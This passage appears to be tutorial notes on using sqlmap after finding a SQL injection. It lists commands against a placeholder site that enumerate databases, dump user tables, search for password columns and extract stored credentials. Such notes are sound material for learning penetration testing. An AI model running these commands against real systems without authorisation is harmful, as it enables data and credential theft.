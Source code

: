 ## Database Enumeration

* After a successful detection of SQLi vulnerability, we can enumerate some basic info:

  * DB version banner - ```--banner```
  * current username - ```--current-user```
  * current DB name - ```--current-db```
  * checking if user has DBA (admin) rights

  ```shell
  # get the above info
  sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

  # table enumeration
  sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

  # get contents of table
  sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

  # get column info
  sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

  sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3
  # only includes column 2 & 3

  # conditional enumeration
  sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

  # use --dump without specifying table to get all info from current DB
  # use --dump-all to get all content from all DBs
  # use --exclude-sysdbs to skip system DBs as it does not contain useful info
  ```

* Advanced database enumeration:

  ```shell
  # retrieve structure of all tables
  sqlmap -u "http://www.example.com/?id=1" --schema

  # to search for all table names containing keyword 'user'
  sqlmap -u "http://www.example.com/?id=1" --search -T user

  # search for all column names containing keyword 'pass'
  sqlmap -u "http://www.example.com/?id=1" --search -C pass

  # once we dump table info, we get option to crack passwords using dictionary attack
  sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

  # to dump system tables containing DB-specific creds, use --password flag
  sqlmap -u "http://www.example.com/?id=1" --passwords --batch
  ```

## Advanced SQLMap Usage
